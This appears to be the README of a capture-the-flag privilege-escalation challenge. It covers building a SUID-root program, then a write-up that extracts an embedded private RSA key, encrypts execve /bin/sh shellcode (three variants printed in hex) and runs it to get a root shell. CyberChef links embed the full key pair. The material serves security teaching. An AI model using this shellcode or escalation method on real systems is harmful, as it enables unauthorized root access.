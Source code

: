 # CTF-Program
## Compiling the program
```c
gcc -o pogram main.c -lssl -lcrypto
```
## Setting up the machine
1) Copy the program
2) Add root as the file owner: ``sudo chown root program``
3) Set the SUID: ``sudo chmod u+s program``
4) Verify that the file is executable: `` ls -l program``

## Write-ups
1) Check the file permission and notice the SUID
2) Download the file
3) Reverse the code via Ghidra
4) Understand
   1) The program modifies the permission of a memory page.
   2) It accepts a single argument, which is provided in Base64 format.
   3) The Base64 argument is decoded and then decrypted using a private RSA key.
   4) The decrypted argument is parsed for further processing.
   5) The program then executes itself with elevated privileges using the SUID bit.
   6) The parsed argument is injected into memory and executed.
5) Run the strings command (or via Ghidra)
   1) Extract the private RSA key
   2) Derive the public key from the private key
6) Find a ShellCode to execute a new shell
   - \x48\x31\xd2\x48\x31\xc0\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
   - \x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
   - \x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05
7) Encrypt the content with the derived public RSA key
8) Transform it in Base64
9) Run the program with that argument
10) New shell created with Root’s permissions

## Tools
- [Encrypt](https://gchq.github.io/CyberChef/#recipe=RSA_Encrypt('-----BEGIN%20PUBLIC%20KEY-----%5CnMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAu1%2Bvz0U6mlNsKMpD6rFf%5CnWx5zH0fPKi8pAmZ9U/MI9eoWbKWXmu%2BZc5zxYPEnwlS8W5DDU/o1TAOyGlLgmPZq%5CnKHMT35p3z8zh7H5oMDkbkpoKVF6KSOaEXrsjy6oi76jNS6cQJLyzetSNIu7Py7O9%5CnDlhz7449ol7crJxVffu1PEcePhBxiLm4Wb9e6L3FCkUQDMqD4JFEnDT5kNLeXzHx%5Cnn1%2BPJFhIQ%2B91M3kicrUIt65hByEpptvVv20WkUTQY/QggtkVE%2BUmIsdNA1SwHMHn%5CnEr8s29RYOji7wRsmyRJ0XpyisNe/xaTMSpZmmXX9rCodgSVCEwz1XcaiXLkhmhiv%5CnbQIDAQAB%5Cn-----END%20PUBLIC%20KEY-----%5Cn','RSAES-PKCS1-V1_5','SHA-1')To_Base64('A-Za-z0-9%2B/%3D'))
- [Decrypt](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)RSA_Decrypt('-----BEGIN%20PRIVATE%20KEY-----%5CnMIIEvAIBADANBgkqhkiG9w0BAQEFAASCBKYwggSiAgEAAoIBAQC7X6/PRTqaU2wo%5CnykPqsV9bHnMfR88qLykCZn1T8wj16hZspZea75lznPFg8SfCVLxbkMNT%2BjVMA7Ia%5CnUuCY9moocxPfmnfPzOHsfmgwORuSmgpUXopI5oReuyPLqiLvqM1LpxAkvLN61I0i%5Cn7s/Ls70OWHPvjj2iXtysnFV9%2B7U8Rx4%2BEHGIubhZv17ovcUKRRAMyoPgkUScNPmQ%5Cn0t5fMfGfX48kWEhD73UzeSJytQi3rmEHISmm29W/bRaRRNBj9CCC2RUT5SYix00D%5CnVLAcwecSvyzb1Fg6OLvBGybJEnRenKKw17/FpMxKlmaZdf2sKh2BJUITDPVdxqJc%5CnuSGaGK9tAgMBAAECggEAQCTwN0kwWC%2BR2d7wZDJHfhaM%2B5rmKT9OzzMN2YTcPu9d%5CnsOD5ZwF6K1GBcpnr7gN7He%2BPZrrDrxuex5MyrzrAOcu3dHdZZ8pwVzko6sVKEqRo%5CnP9zDg1Ri4Vk4VlsOrbPAYBM3nBP7b2O/U0Ok4EvOP1B5k/tCT0khS3gTblcSgqkR%5Cn9ROiRDclEAdHj3bkzFCWSwpU6by9LlZIQUDeFFusWnhnVEdTQ2GZMrLURkpgiybd%5CnTI9PkqCZwHL824/FsTENAchwkRE3tIwIentP3/51YAH9zP3GsQ%2BKg%2BR4YANY4xtx%5CnTx%2BYkPbju8Cy0CUs/Ou1rzilbihsoKoRzmkgOVepkwKBgQDkMUudHLSenDAIiStk%5Cnvr16i7y%2BuBGA5tYo6OdqEqAA76f4UYhJ84ra7npnwvpwURwPwOnX1yl60aRtRXJf%5CnUqreKyPH73kO95ZDn7ZH%2BlKfIRwZInvy1BIDcXjgNEuRout%2BELG5JurUMIyXtxQY%5CnbZ0e2HKNeS48DpX0QfARJtO3twKBgQDSNQHE7xZmwOqY82O0Snyj3lPQX7lfC1Zg%5CnPr91FXdIag8TXevy2Y9eQ5pG/n/cmc%2B3xor60Yau1GAqkKYL2HKgJ%2BSmn4yv6YV/%5CnL2U2nX41GwY9%2BLZqmqR9v1we%2BEeOo230D9GAIS7ck/dCd/fj%2BgdNdelzhgjXqQRY%5CnUKqgECLp%2BwKBgD2HSTMg1VbbGFyE1%2B1/PMn5ObhXG2kdVOuM%2BTDxurDl7e2X1l7S%5CnS0ODAABQY4S7agyZYLQxMN8L/gD0s8UeHjJvgWNcn9C4U40CWH0J8xMzM0dXtAIi%5CnyoShKQ2TLDklq8e/KpyY8MKsIIyb8dAwZig2BpU88omBCU/mI5wMUxP7AoGAUM8D%5Cn0RtAd1vuU8ItMB/6blyHx/Ekp/8Jw5Ibs/z%2BkB4FkaJnlEJCtTAz3Nr1eG7AxZtT%5CnzjxCFG%2BcUICu9JrO5fawFcX8JZwWL%2BCefjJpVC0BZ013gt/UIGsyFM3JZHI7ULnM%5CnBf%2B7rhxLz4ejCkcSC5sqlbiPKajV/MV18naBlYUCgYAHleNkNeT5pWrGFkGB5HPe%5CndL4sEJX0GuL20EELpoK0%2BF36FmUreu1A6dXVkycr5NGc3nglXYEewQkyJaWCFW%2Bf%5CnNYWAtfyRR8/FWwMhnM1EwZuHB5LjoRcxiIea4CYCEsKj9z78dywybGcw1H7pyCbf%5Cnp4GQUoA2GsoYeZlJywd3WA%3D%3D%5Cn-----END%20PRIVATE%20KEY-----%5Cn','','RSAES-PKCS1-V1_5','SHA-1')To_Hex('Space',0))